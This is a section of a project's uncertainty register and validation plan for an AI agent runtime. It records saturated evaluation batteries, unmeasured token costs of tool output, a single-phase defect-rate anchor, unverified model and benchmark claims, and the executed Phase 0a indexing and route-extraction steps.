| U-45 | **NEWLY OPENED 2026-08-03 — the lookup family cannot answer the question it was built for, and nobody has proposed a battery that can.** [finding 013](../specs/001-discovery-validation/findings/013-ceiling-test-budget-parity.md): on the paired run **both arms scored 27 of 27** — R1 12 of 12 and R2 15 of 15, no exceptions. That is not a win and it is not a measurement. `TSR(A) = 1.00` sits outside the pre-registered **0.25–0.85** calibration band and the decision table's fourth row **VOIDs** the run for verdict purposes at exactly that condition, so no decision-table verdict is claimed from it and none may be. `Δ = 0` on a metric pinned at its ceiling carries no information in either direction. **Amendment A2.5 required re-calibration into the band before Phase 3 ran; it was never achieved and Phase 3 never ran.** | **Blocking for any capability claim about curated tool surfaces; explicitly not blocking for the cost claim, and the split is the whole point of recording it separately from U-42.** U-42 is about *every* E7 number being single-attempt. This is narrower and worse: on the largest family in the battery the capability question is not merely imprecise, it is **unasked**, because the tasks cannot discriminate. So **on the lookup family the entire case for a curated tool surface now rests on cost** — measured once per task, on a battery too easy to separate the arms — and [finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md) already recorded that there is no measured family in which the tool arm succeeds more often than the baseline. Finding 013 does not change that; it **removes the last available excuse for the cost figure** and leaves the capability question where it was. **Read this against D-21 before treating the pivot as under-evidenced in the other direction**: a saturated family supports no conclusion *either way*, so this entry does not argue that the tool surface is more capable, it argues that nothing here could have shown it. | **Build lookup tasks that land inside the discriminating band, which was possible and was not done — this is a limitation of the task design, not a property of the arms.** More attempts on the existing tasks buy precision on a metric pinned at 1.00 and no information, which is why the $120 full battery was declined and why it should stay declined for this family (U-42's own guidance). A rebuilt battery is the resolution, and it is a *design* cost rather than a spend: candidate directions are multi-hop lookups the shell arm must chain by hand, lookups over identifier forms the target resolves inconsistently (C-18's fail-open class is one), and lookups whose oracle depends on a field the OpenAPI schema does not describe. **Until a battery exists that both arms do not solve trivially, no capability claim about curated tool surfaces may cite the lookup family in either direction.** | [finding 013](../specs/001-discovery-validation/findings/013-ceiling-test-budget-parity.md) §The lookup family voids its own capability limb, §What this evidence does not license; [finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md); [finding 008](../specs/001-discovery-validation/findings/008-ceiling-test-calibration.md); [11](./11-validation-plan.md) §9.4, §9.7; U-42; U-46; C-18; D-19; D-21; `plan.md` OD-04, OD-05, OD-07 |
| U-50 | **NEWLY OPENED 2026-08-04 — the token cost of bulk tool output entering the transcript is unmeasured on v1's action surface, and no requirement governs it.** NVIDIA's NOOA reports parity or better on SWE-bench Verified at ~~roughly half the tokens of two comparison harnesses~~ **corrected 2026-08-04 against [the paper's §4.2](https://arxiv.org/abs/2607.20709), read directly: half the tokens of *one* comparator and about fifteen percent fewer than the other. NOOA takes ~28 calls and 1.1M tokens for 82.2%; OpenCode takes a similar call count and ~1.3M for 78.6%; PI takes 66 calls and 2.2M for 78.2%. PI's excess travels with a call count two and a third times NOOA's, so attributing all of it to serialization is the same error the plural was** and attributes the saving to *pass by reference* — tool results staying live Python objects rather than being serialized into the transcript ([`15`](./15-nvidia-oo-agents.md) §2, §8). **Read the mechanism against ours before reading the number: it is absent by construction, not degraded by our sandbox.** [`spec.md`](../specs/002-spec-aware-agent-runtime/spec.md) **FR-004** gives v1 command execution plus a general request capability, and both return bytes across a boundary — so there is no in-process object graph for a reference to point into, and the question "how much survives our sandbox" has no referent here. **The question one level up does.** Searched 2026-08-04 across that specification: **no requirement governs the size of a command's output**, and no truncation rule, bounded preview, byte ceiling or handle appears anywhere in that role. FR-005 bounds a session's *total* token consumption, which halts a run and does nothing to the cost of a unit of work inside it. **So the operative default is to inline everything, which is the expensive case, and nobody chose it.** | **This is a specification gap and a measurement gap at once, and `plan.md` OD-09 is what makes it load-bearing: it repositioned the entire product claim onto cost.** An unspecified inlining default sits directly on the thesis. **One thing that looks like a threat is not one, saying so keeps the entry honest, and the reason given for it was wrong until 2026-08-04.** ~~E7's measured cost advantage (D-19) was taken on a shell surface that already inlines its output, so whatever inlining costs is *inside* the figure this product quotes rather than a regression against it.~~ **Premise corrected 2026-08-04 by [finding 022](../specs/002-spec-aware-agent-runtime/findings/022-e7-tool-result-truncation-cap.md): E7's shell surface did not inline its output, it capped it.** `ceiling-test/config.json` sets `tool_result_truncation_chars` to 6,000; `runner.py` passes that one value to the single call site both arms share; `agent.py` truncates and only then measures. So **E7 arm B (shell)** — the baseline D-19's advantage is measured against — inlined at most about **1,500 tokens** per tool result, at the 4.0 bytes/token divisor E17's own harness uses. **The conclusion survives and is arguably strengthened, because a capped baseline is still a baseline: the open quantity is still headroom, not exposure** — how much of the advantage is being left unclaimed by a default that was never deliberated — which is a smaller and much more answerable question than the one NOOA's number invites. **What the premise did was *size* that headroom, and the correct sizing is far smaller.** Against an unbounded-inlining baseline the unclaimed prize is whatever bulk output costs; against a 1,500-token ceiling it is only the distance from that ceiling down to a bounded preview — 1,500 tokens to roughly 400 in E17's own treatment parameters, and bounded above by **4.09%** of arm-B cost on the paired run behind **4.366×**. **Do not carry the struck sentence forward as the thing that sizes this entry.** **Narrowed 2026-08-04 in size and not in direction, and the distinction is the load-bearing one: the headroom is smaller than the headline implies and possibly much smaller, but nothing here reopens the direction, and a reader must not come away thinking the cost claim is at risk.** Two grounds. ① **The paper undercuts its own novelty on the mechanism.** Its §3 says *"Models already improvise this pattern in bash – spilling results to files and processing them with follow-up commands; NOOA replaces the untyped text on disk with typed, live variables that persist from cell to cell"*, and its pass-by-reference rendering is *"each argument's variable name paired with a bounded preview: the concrete type, the true length, and a short head/tail sample."* That is handle-plus-preview, and §6 concedes the point from the other side — file handles are *"a variant of pass by reference"*, *"powerful"*, and what they lose is *"all type information."* **So NOOA's increment over a command-execution surface is type preservation, not the token saving.** The saving is available to a bytes-returning surface such as FR-004's; the type information is not, and no requirement asks for it. ② **E7's shell baseline was already improvising it, which was an open question until it was checked.** Counted 2026-08-04 over the fourteen committed `traces.jsonl` files under `specs/001-discovery-validation/harness/ceiling-test/results/`, which record every `bash` call's full command string: ~~**36 of 109 arm-B task-attempts spill output to a named file, 31 later read one back, and 70 of 998 arm-B commands write one.**~~ **Re-derived 2026-08-04 by [finding 022](../specs/002-spec-aware-agent-runtime/findings/022-e7-tool-result-truncation-cap.md), which reproduces every struck figure to the digit and corrects the population each counts: 32 of 109 E7 arm-B (shell) attempts spill *command output* to a named file, 31 later read one back, and 45 of 998 E7 arm-B commands write one** — the 4 attempts and 25 commands removed wrote only a heredoc script (`cat > /work/x.py << 'EOF'`), which is the model typing a file rather than capturing what a command printed. An unquantified share of the headroom is therefore already inside the figure D-19 quotes. **This is a count of the behaviour occurring and not a measurement of what it saved** — ~~21 of the 70~~ **21 of 45** immediately `cat` the whole file back, which defeats it — so it bounds the prize without pricing it, and pricing it is exactly what **E17 arm A (handle-vs-inline)**, `15`'s arm ②, is for. **That restatement is `U-49`'s defect for the third time**: the numerator was computed over output-spills while the denominator was padded with 25 heredocs that could not have entered it, and the corrected rate is the less flattering one — nearly half the spills hand the file back whole, not three in ten. **And none of these may be read as a rate on any published figure.** The pooled 109 crosses **seven** harness fingerprints, which `runner.py`'s docstring forbids pooling across; it includes 13 smoke attempts backing no published figure and 25 noise-floor attempts that are 5 tasks weighted 5×; and across the six runs that do back a published figure the per-family spill rate spans **19% to 100%**. **Consequence for E17 arm A:** it must report its baseline's spill rate beside its result, per fingerprint and not pooled, or it prices a treatment against a baseline that is partly the treatment. **The specification half is the cheaper half and is independent of both measurement arms**, which is worth separating because a gap that waits on a run is easy to leave open indefinitely: deciding whether a byte ceiling, a bounded preview or a handle governs command output costs no model call and no benchmark, and *recording inlining as the chosen default* is itself an acceptable outcome. What is not acceptable is inheriting it silently, which is the shape C-15 records the pivot producing once already. **PARTLY SETTLED 2026-08-04 by `plan.md` OD-25, and this row stays OPEN — one limb closed by decision, the other unmeasured and now without an instrument.** The specification half this entry called the cheaper half has been taken: [`spec.md`](../specs/002-spec-aware-agent-runtime/spec.md) **FR-058** bounds every result FR-004's two capabilities return before it enters the model's context, returns a result that reaches the bound as a **bounded preview together with a reference** rather than as a silent truncation, and forbids configuring the bound above one twentieth of the context window. **So the token limb is settled by requirement and not by measurement, and that distinction must travel with it** — nothing was run, no model was called, and the answer follows from where the bound sits rather than from a result. OD-25 says so of itself, and records the mechanism as a build accepted on a correctness argument the economics do not carry. **The task-success limb is untouched.** Whether an agent handed a bounded preview and a reference answers as often correctly as one handed the bytes has never been measured, and nothing in this corpus bears on it. **The instrument is gone as well, and not for the reason a reader would guess.** Neither E17 arm ran and neither is now expected to: **E17 arm B (NOOA)** was declined at **$0.00** as *unable to measure what it was commissioned to measure*, and **E17 arm A (handle-vs-inline)** — the only arm that speaks to task success — is predicted by its own pre-registration to **void at stage one**, every task being a deterministic shell question a competent model gets right, so a turn budget is the only calibration knob and without one the design almost certainly voids. That is **U-45**'s saturated-calibration failure arriving before the spend rather than after. **Neither arm was declined on cost, and recording it as a cost decline would misplace the reason the limb is unanswerable.** **OD-25 additionally forecloses the setting at which the token limb was measurable** — the highest bound the sensitivity analysis prices sits above the ceiling FR-058 permits, so a run at that bound would price a configuration v1 cannot ship, and OD-25 states that as a decision about what the product will not measure, taken before measuring. **The row therefore stays open on the task-success limb; closing it would report a decision as a measurement** | **Two measurement arms, both authorised 2026-08-04, neither run, and they answer different questions — do not merge them.** **Arm letters collide across three documents and one collision inverts, so both arms are written here in the experiment-qualified form [finding 022](../specs/002-spec-aware-agent-runtime/findings/022-e7-tool-result-truncation-cap.md) defines: E7 arm A (curated tools), E7 arm B (shell), E17 arm A (handle-vs-inline) = `15`'s arm ②, E17 arm B (NOOA) = `15`'s arm ①. "Arm B" unqualified means the shell baseline in E7 and the declined NOOA arm in E17 — opposite things.** ① **E17 arm B (NOOA), an external upper bound**, from NOOA's own comparison and needing no third-party benchmark: the same task, agent class and model at `execution_backend="inprocess"` and then at `"sandbox"`, one factor differing ([`15`](./15-nvidia-oo-agents.md) §10). It **bounds rather than transfers**, because that harness's baseline holds live objects across turns and ours never does, so its delta is the most the mechanism could be worth to anyone and not what it is worth to us. ② **E17 arm A (handle-vs-inline), an achievable figure from our own harness**: inlined command output against a handle plus a bounded preview, on a command surface, which is the arm that speaks to FR-004 directly and the only one whose result could be written into a requirement. **Both are being pre-registered by separate work under `specs/001-discovery-validation/harness/pass-by-reference/`. Neither has run. No figure from either may be quoted, and nothing in this entry should be read as reporting one.** **One thing about that pre-registration is now checkable and is recorded 2026-08-04 in [finding 022](../specs/002-spec-aware-agent-runtime/findings/022-e7-tool-result-truncation-cap.md): its primary inline cap of 8,000 tokens is 5.3× E7's empirical 6,000-character (~1,500-token) cap, the only inline setting this repository has ever run.** Its own pre-registered sensitivity table returns a projected median ratio of 0.429 at 8,000 tokens and **0.958 at its lowest rung of 2,000** — itself still above E7's cap — which its §8.4 decision rule maps to *recommend against*. Whatever E17 arm A reports at 8,000 tokens must be read beside what it reports at its low rung. Arm ① additionally requires installing the dependency OD-16 declined, in a throwaway environment, which is a decision rather than a detail (C-20). **Superseded as a spend plan 2026-08-04 by `plan.md` OD-25: neither arm is now expected to run**, for the two separate reasons recorded in the assessment cell, so this pair reads as what was designed rather than as work outstanding. The arm definitions and the collision warning stand — they are what keep a figure from landing on the wrong arm — and the sequencing sentence below is discharged rather than pending: the specification half did not wait. **Non-blocking: v1 ships either way, and the sequencing that matters is that the specification half must not wait on either arm** | [`15`](./15-nvidia-oo-agents.md) §2, §8, §9, §10; [`spec.md`](../specs/002-spec-aware-agent-runtime/spec.md) FR-004, FR-005, **FR-058**; `plan.md` OD-09, OD-16, **OD-25**; D-19; C-15; C-20; U-42; **U-45**; U-46; U-49; [finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md); [finding 013](../specs/001-discovery-validation/findings/013-ceiling-test-budget-parity.md); [finding 022](../specs/002-spec-aware-agent-runtime/findings/022-e7-tool-result-truncation-cap.md) |
| U-51 | **NEWLY OPENED 2026-08-04 — the defect-rate anchor this project reasons about its own remaining work with rests on a single phase, and the classification derived from it has counterexamples inside its own commit.** [finding 019](../specs/002-spec-aware-agent-runtime/findings/019-phase-2-defect-density.md) is the first calibration anchor this corpus has ever had for the work it is doing rather than for the world it is doing it in. **One phase completed and produced one density.** The two-rate split built on it — roughly one defect per 500 lines for storage-and-serialization work against roughly one per 3,000 for code the kernel checks — carries **no observation at all behind its second rate**; that rate is the prior the phase was measured against, carried forward on an argument about failure modes. **[finding 020](../specs/002-spec-aware-agent-runtime/findings/020-phase-2-defect-density-adjudicated.md) then contradicted the argument from inside the same commit.** The `cgroup.kill` silent fallback and the `_check_cgroup_kill` preflight probe are **both pure cgroup code and neither failed loudly**: the first returned successfully having killed some of the processes, and the second read a path the kernel documents as absent in the root cgroup, got `False`, reported a present facility as missing — and its test asserted only the message text, so nothing could tell. **The classification excluded its own counterexamples**, because it was drawn over the five defects that had been counted and both counterexamples sat outside that set. | **The anchor is a point being quoted as a rate, and it is quoted to predict how much review the remaining phases need.** Two weaknesses compose and they point the same way. **First, adjudication moved the count by more than severity judgement did.** Finding 020 records that **not one** of finding 019's five failed on a bar written before the defects were looked at — the count moved on *attribution*, which nobody was examining. So the residual uncertainty sits in the population rule rather than in taste, and a second reviewer's taste is not what would close it. **Second, the residue is unbounded in the same direction on both passes.** One reviewer over a few hours found four live Phase 2 defects against a suite that is green, which is direct evidence that a longer pass finds more, and both documents say so about themselves. **Two reviewers arriving at nearby numbers is weak evidence and is not much strengthened by the second having written its bar down** — the bar reduces the variance a *third* reviewer would add and does not make the count objective. **This entry is the sibling of U-49 rather than a duplicate of it:** U-49 is about a numerator and a denominator drawn from different populations, and this is about a *single observation* carrying a two-class generalisation. Both defects are present in the same pair of findings, and neither is visible from the figure | **A second phase counted the same way is the only thing that turns a point into a rate, and it is the thing to schedule.** [finding 020](../specs/002-spec-aware-agent-runtime/findings/020-phase-2-defect-density-adjudicated.md) ranks four steps that would make the next figure a measurement rather than a second opinion, **none of which needs a model, a network or a container**: a third reviewer applying the same written bar blind, which is the only one that measures inter-rater spread and therefore the only one that supplies the error bar the anchor lacks; `git log -S` attribution made a required step rather than an available one, which converted two of five mechanically and with no judgement and is the highest ratio of correction to effort in the exercise; a second phase counted identically; and **a defect ledger written as the work happens**, since discovery order is undecidable after a single-commit landing only because nothing wrote it down. **Until a second phase exists, the two-rate split may not be quoted without the sentence saying which half was measured — and that sentence must now also say that the unmeasured half has observed counterexamples in the one phase cited for it**, which is stronger than the caveat finding 019 attached to itself. **Non-blocking, and the reason it is filed here rather than lower is that it governs a figure used for sizing rather than for a customer promise** | [finding 019](../specs/002-spec-aware-agent-runtime/findings/019-phase-2-defect-density.md); [finding 020](../specs/002-spec-aware-agent-runtime/findings/020-phase-2-defect-density-adjudicated.md); U-49; U-42; C-19; [finding 017](../specs/001-discovery-validation/findings/017-evaluation-contemporaneity.md) |

### 5.3 Model and benchmark landscape — treat as unusable, not merely uncertain

| # | Unverified claim | Disposition |
|---|---|---|
| U-17 | **"Mythos 5"** — named in Anthropic's own Opus 5 announcement ("remains behind Mythos 5 on cybersecurity tasks") and by Cognition, with **no identifiable publishing lab, release date, or specifications** | Genuinely strange and worth one hour of someone's curiosity. Flagged rather than guessed. It has no architectural consequence, but a frontier model nobody can attribute is a hole in the routing analysis. |
| U-18 | **GPT-5.6 tier ordering** — secondary sources disagree about which of Sol / Terra / Luna is the flagship and place them in conflicting price tiers | Do not build a routing table from secondary sources. Verify against OpenAI's own docs at the moment routing is implemented, not before. |
| U-19 | **Terminal-Bench and SWE-bench numbers generally** (see C-05) | Unusable without harness, effort level, attempt count, and sandbox spec. Never cite in a product claim. |
| U-20 | **xAI/Grok first-party MCP client support** — no primary source located | Treat as *unverified*, not absent. Only matters for the export surface's reach claim. |
| U-21 | **`codegraph`'s Linux-kernel scale claim** (70k files / 2M symbols / 6.4M edges / <12 min) | Vendor claim, still untested at that scale. **First measured datapoint:** `adk-python` indexed to **1,867 files, 48,154 nodes, 149,714 edges in 7.8 seconds** (the earlier "2,353 files" was a raw file count; 1,867 is what the indexer actually took). That is roughly 2.7% of the claimed file count, so it extrapolates nothing. Finding 001's target, at 4,496 files, is also small. Do not promise enterprise-monorepo performance. **Determinism, separately, does hold:** two independent copies indexed in separate directories produced byte-identical node fingerprints over all 48,154 rows. |
| U-22 | **`codegraph` and `.ipynb`** — unverified and probably unsupported | Affects `claude-cookbooks` (91 notebooks, 91,407 lines) entirely. Minor for the plan; relevant if a customer's ML repo shows up. |
| U-23 | **The "ninth repository"** — the original directive named nine; **`examples/` has eight** | Identify and vendor deliberately, or correct the count. Cheap. |
| U-24 | **CMA sandbox cold-start and session-resume latency** — undocumented | Anthropic positions CMA for "long-running tasks and asynchronous work," which may be a quiet admission that interactive latency is not its strength. Inference; measure in the spike if CMA is used. |
| U-25 | **No controlled loop-vs-graph comparison exists anywhere** | [10](./10-topology-in-practice.md)'s recommendation is an engineering judgment from convergent design evidence, not a cited result. Every efficacy number in that space is a vendor self-report or a whole-system benchmark. Hold D-10 firmly but revise cheaply. |

*Confidence note on the whole register.* ~~U-01 through U-06 are the ones that cost real money to be wrong about — and as of 2026-08-02 read that as U-01 through U-06 plus **U-30** and **U-34**, both of which are blocking, both opened by measurement rather than by reading, and neither of which existed when this note was written.~~ **Restated 2026-08-02, because the range no longer describes the section it summarises: three of the entries it names are struck as resolved above it.** *The ones that cost real money to be wrong about are the live blocking entries, which are now* **U-02, U-04, U-05, U-06, U-30 and U-39** *— U-01, U-03, U-26 and U-34 are resolved, and U-34 resolved into U-39 rather than simply closing, so the count did not fall.* **Read the range as a pointer to §5.1 rather than as a fixed list, because it has been wrong twice now for the same reason: entries resolve and the summary does not follow them.** **Flagged again 2026-08-03, and this time by a decision rather than by a resolution: `plan.md` OD-18 removes U-39's v1 blocking basis and `plan.md` OD-15 makes U-30 worse.** ~~U-39 is narrowed rather than resolved and is **flagged for demotion out of this set, not moved** — thinning a pre-registered blocking set is an owner action, as it was for U-05 under OD-08 — so the list above is left as written rather than silently shortened.~~ **Superseded 2026-08-03, later the same day: the owner action was taken and U-39 is RECLASSIFIED as v2-blocking**, so it stops blocking v1 and continues to block any decision to widen admission. ~~**Read the live v1-blocking list above as U-02, U-04, U-05, U-06 and U-30**~~; U-39 is annotated in place in §5.1 under a v2-blocking marking rather than struck or removed, per that section's convention. **Nothing was measured and nothing resolved** — OD-18 discharged the promise question for v1, the prevalence measurement behind **0.8000** was never made, and it stays attached to the v2 admission-widening decision it would price. ~~**U-05's own flag is untouched and still outstanding**: this decision reaches U-39 and nothing else.~~ **Superseded 2026-08-03, later the same day, and by a second owner act rather than by a correction: U-05 is RECLASSIFIED as hosted-tier-blocking** under `plan.md` **OD-08**, so the sentence above was true when written and is now false. **Read the live v1-blocking list as U-02, U-04, U-06 and U-30** — four, not five. **Nothing was measured there either**: OD-08 discharged U-05's custody limb by construction, the trust question at its core (will a customer register *our* OIDC issuer) is exactly as unanswered as it was, and it stays attached to the hosted tier it would gate (O-02). **Two entries have now left the live list without being resolved, on the same day and by the same mechanism, and that is the thing this note should be read for**: the section's membership no longer carries the blocking claim and each row's own marking does. U-30 stays blocking and its floor dropped; the production specification's **FR-005** now requires the ceiling U-30 says nothing supplies. *Two of the six were opened by measurement rather than by reading (U-30, U-39), and both concern what the product can promise rather than how it is built. Outside §5.1, the one non-blocking entry worth reading with the blocking ones is* **U-40** *— it is non-blocking only because the component whose conservatism currently supplies the safety property has not yet been improved. U-17 through U-25 are hygiene — they matter for not publishing something indefensible, not for the architecture.*

---

## 6. What to do Monday

> ## ⚠️ This section is a historical record as of 2026-08-02. Phase 0 ran, the pivot criterion fired, and discovery is closed.
>
> **Everything below describes the plan that was executed, and it is retained in full rather than rewritten, because the pre-registration is the whole reason the pivot is credible.** Phase 0a ran (steps 1, 2, 4, 6, 9 and 10 completed, and 9 and 10 ran early as E4 and E14). Phase 0b **never ran**. Phase 0c ran as three per-family probes rather than one 45-task battery (OD-04, OD-05), and **§6.3's third kill-and-pivot row — `A0b ≈ A8` → PIVOT — fired.** Phases 1 through 5 will not run. `plan.md` OD-09 (D-21) is the response.
>
> **What Monday actually is now**, replacing §6.1–§6.5 as the forward-looking list. Four items, ordered by how much they would cost to get wrong, and only the last of them is a build:
>
> **Re-ordered 2026-08-03 by `plan.md` OD-10 and OD-11, and the change is a promotion rather than a reshuffle: item 1 is no longer the cheapest unscheduled experiment, it is a *gate on the production spec*, and item 2 is no longer *before any v1 write ships* but *before writes are permitted to exist*.**
>
> **⚠️ Re-ordered again the same day by `plan.md` OD-14, and this time item 1 comes *off* the list.** The experiment was built and dry-run at $0.00, its corpus cannot answer the question, and the owner declared the margin **UNMEASURED** and deferred it to production. **Monday is now: write the production specification, and instrument the verifier and a shadow judge in it.** Item 1 below is retained as the record of what was scheduled and why, struck where it is superseded. **Item 3 is thereby promoted to the least-measured thing in v1 with no experiment behind it at all** — drift detection has no harness, no pre-registration, and nothing scheduled, which is now a sharper gap than the verifier's, whose *mechanism* is at least demonstrated. All three v1 capabilities ship unmeasured; see [`VERDICT.md` §2](../specs/001-discovery-validation/VERDICT.md#all-three-v1-capabilities-ship-unmeasured).
>
> 1. ~~**Restate P-07 against arms that exist and run it — and write no production spec until it returns (`plan.md` OD-11).**~~ **SUPERSEDED by OD-14 — deferred to production, gate unchanged.** v1's central differentiator is the contract-derived verifier, and **nothing measures whether wrapping the loop in it helps** — D-09 measures whether contracts can be *derived*, which is a different question. The comparison is a spec-aware agent with contract verification against the same agent without it, **plus a general-purpose LLM judge as the third arm, which is the arm that decides whether there is a differentiator at all** (P-09; [11](./11-validation-plan.md) §8 Phase 2, gate quoted verbatim: ≥ 10 pp → headline, < 10 pp → CI detail, judge AUROC < 0.5 → constitutional ban on judges in the success path). ~~This is the cheapest high-value experiment available and it is unscheduled.~~ ~~**It is scheduled, a harness is being built for it, and the spec is blocked behind it.**~~ **The harness was built, self-tested and dry-run at $0.00, and then not executed: 2 surviving discriminative traces, three pre-registered riders capping the verdict independently, four of seven task families lost to the eligibility rule. OD-14 declares the margin unmeasured and moves the measurement into production instrumentation. What the harness *did* establish at zero cost is a design constraint: the production verifier must recompute against an independent source rather than re-check the same contract, because the failure that matters is schema-conformant end to end.**
> 2. **Sample U-43 — the precision of the verb→tier mapping — and pre-register a directional gate before ~~any v1 write ships~~ writes are permitted to exist at all (`plan.md` OD-10).** Hand-label one target's served operations against their handlers; the operation-set harness is already committed. The defensible gate is *zero operations classified read-only that write*, not an aggregate precision figure (D-22, D-16 dormant, C-16). **Under OD-10 the labelling shrinks to safe-method operations only**, because every other tier is denied regardless of how it is classified — so this item got cheaper at the same time it became the exit condition from read-only.
> 3. **Design the drift detector's two triggers**, which O-04 says must be picked and named, and which OD-08 says must run unattended on the customer's box. Drift is now half the product and is the **least measured thing in it** — Phase 5 (H6) never ran, and `plan.md` E13 has no arm in which the source is unchanged and the deployment stops serving an operation.
> 4. **Start the loop-safety build (§2.6), which did not shrink when the product did.** 2.5–3.5 weeks, realistically its upper half, plus the unsized coding-node executor and the D-22 interception point. It is now a much larger fraction of v1 than it was of the pre-pivot plan.
>
> **What is off the list entirely:** Phase 0b (§6.2), Phase 1's A1-vs-A2, and every multi-agent arm. They are v2 prerequisites, not Monday items.

This merges [12](./12-examples-as-corpus.md)'s corpus phases into [11](./11-validation-plan.md)'s hypothesis phases per C-03. The ordering principle: **do the free, offline, no-LLM work first, because it is the only work that can be wrong for free.**

**Extended 2026-08-02 by a result that widens what counts as "free."** The principle was written as a distinction between offline static analysis and anything touching a model. [finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md) shows the line sits further out than that: probing a runtime's crash, resume, cancellation, budget, and replay behaviour cost **$0.0003 against a $5.00 ceiling**, because **twelve of its fourteen arms used pure Python function nodes and needed no model at all**. The one trap arm that proves ADK has no step ceiling burned 1,292 graph iterations for nothing. Nine model calls were spent, all on `gemini-2.5-flash-lite` with single-word prompts, on the single question that genuinely requires a model — whether `max_llm_calls` actually halts a run. **The practical rule: runtime behaviour is a property of the harness, not of the model, so stub the model out and the verification is free.** Any question of the form "does the runtime do X when Y happens" belongs in the free tier alongside static analysis, and should be asked before anything is committed to a schedule rather than discovered during implementation.

### 6.0 Sequence at a glance



**Read 2026-08-02: this is the path that was taken.** `0a` ran; **`0b` never ran**; `0c` ran as three per-family probes rather than one battery (OD-04, OD-05). The first gate resolved on its *second* limb — A8 did not beat the baseline by 15 points in any family and did more than halve cost per solved task in all three, and the criterion is an *or*, so it is not a stop (P-02). The second gate then answered **yes** in all three families, and in two the baseline was ahead. **`PIVOT` is where the program is.** Note one substitution that the diagram cannot show and that matters: the arm actually run against A8 was **A0b, never A0**, so the left branch of the first gate has no measurement behind it (P-02, [finding 005](../specs/001-discovery-validation/findings/005-ceiling-test-harness.md)).

### 6.1 Phase 0a — Offline analysis self-test (no agent, no LLM, $0)

**Target: `adk-python`.** It is the single best starting point in the corpus because **both halves of the loop live in one repo** ([12](./12-examples-as-corpus.md) §3.2): it is a real Class B application (`get_fast_api_app()`, 26 hand-counted CRUD routes in `api_server.py`, SQLAlchemy/SQLite with migrations, local defaults) *and* it serves `/openapi.json`, which is a free, exact answer key.

> **Superseded in part, 2026-08-02.** Two corrections from [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md). First, the hand count is wrong: reading the instantiated application's own route table gives **27** entries in the `api_server` configuration and **69** routes declared by a verb decorator in application source, against a **77**-pair union across five configurations. Second, `/openapi.json` is a *weaker* key than assumed, not a stronger one — it reports one deployment configuration, and the configuration is the variable that moves precision from 1.0000 to 0.3188 (U-26). Reading `app.routes` off the instantiated app across every configuration is the key that was actually used, and it is strictly better because it enumerates the choice rather than fixing it. `/openapi.json` remains the right instrument for the *reachability* check, which is a different question. **Refined again 2026-08-02 by [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md), and the distinction is worth keeping straight.** What is weak is a *single fetch*, not the schema. Instantiating the app in each of the five constructor configurations and unioning `app.openapi()` produces **69 operations matching the 69 recovered routes exactly**, and that schema is not documentation — FastAPI generates it from the same route table and Pydantic models it validates requests with, so it states what the application will actually accept and return. Read across configurations it is an exact key for parameters and return types; read once it fixes a configuration and reports two fifths of the surface.

| Step | Action | Deliverable | Notes |
|---|---|---|---|
| 1 | ~~Resolve **U-01** (Claude SDK license)~~ — **done 2026-08-02** | Answered in the register: SDK is MIT, bundled CLI is not | Residual: emitted packs declare the SDK as a peer dependency, never vendor it. No longer blocks 0a. |
| 2 | ~~Resolve **U-03** (ADK + LiteLLM)~~ — **done 2026-08-02.** ~~Verify the runtime supplies the loop-safety machinery §2.5 and §2.6 assume~~ — **also done 2026-08-02** | ADK verified against Anthropic, OpenAI, xAI, and Google, with tool calling intact on all four. Separately, ADK probed against all four loop-safety primitives: **two of four missing against a threshold of three, so the gate clears** | ADK-coupled code is unblocked on both counts. Pin LiteLLM at 1.91.4 or verify a macOS build path. **Three follow-ons, none of which blocks 0a but all of which reach the production spec. Two of the three closed the same day.** The Claude Agent SDK's Anthropic-only scope and the question of whether checkpoint/resume counts as missing were both put to the owner and both answered — **OD-02** and **OD-01** in `plan.md`, folded into D-05, with O-06 closed. The third stands: 2.5–3.5 weeks of build work is on the critical path (§2.6), realistically its upper half now that fan-out ordering is committed, with the largest item still contingent on U-31 and the newly-unsized ADK coding-node executor sitting outside the figure entirely. See [finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md) and [finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md). **⚠️ 2026-08-03, `plan.md` OD-15 and OD-16 — three clauses of this row are now false and the row is kept as the record of what was unblocked.** ~~"Pin LiteLLM at 1.91.4 or verify a macOS build path"~~: `litellm` is not shipped (it declares no license) and Linux is the only supported platform (OD-17), so neither branch applies. ~~"ADK-coupled code is unblocked on both counts"~~: there is no ADK-coupled code in v1. And **the 2.5–3.5 weeks is no longer the figure** — nine capabilities moved to build with no estimate (**U-48**). The two *measurements* this row reports are untouched; what changed is every action item drawn from them. |
| 3 | Resolve **U-07**: run `adk api_server` and check whether session/artifact CRUD works without a model key | Yes/no | Ten minutes; determines whether 0a is truly free. |
| 4 | Index all eight `examples/` repos with `codegraph` **on scratch copies** — **one of eight done 2026-08-02** | Coverage / resolution / runtime / failure-mode table per repo | `adk-python` indexed fresh on a scratch copy: 1,867 files, 48,154 nodes, 149,714 edges, 7.8 seconds, codegraph 1.5.0 at extraction version 25, and byte-identical across two independent runs ([finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md)). Seven repos remain. `codegraph init` writes `.codegraph/`; never touch `examples/` in place. |
| 5 | ~~Diff `codegraph` route extraction against the **26 hand-counted routes** in `api_server.py`~~ — **superseded 2026-08-02** | — | Replaced by a machine-generated key rather than a hand count, which is strictly stronger and removes the transcription risk. The adversarial multi-line-decorator hazard **was exercised and did not materialize**: 44 of the 69 declarations span multiple lines and all 44 were recovered. See [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md) §1. |
| 6 | ~~Upgrade the answer key: diff extraction against the **live `/openapi.json`**~~ — **done 2026-08-02, with a stronger key than planned** | Precision 1.0000, recall **0.8961** (69 of 77), F1 0.9452 against the union of five deployment configurations; symbol recall 0.9987 at precision 1.0000 | The key was read from the instantiated application's own `app.routes` table rather than from `/openapi.json`, which enumerates all five configurations instead of fixing one. **0.8961 lands in the 0.75–0.90 gate band, so the call is extend-with-gap-fill, not adopt** (D-14). See [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md). |
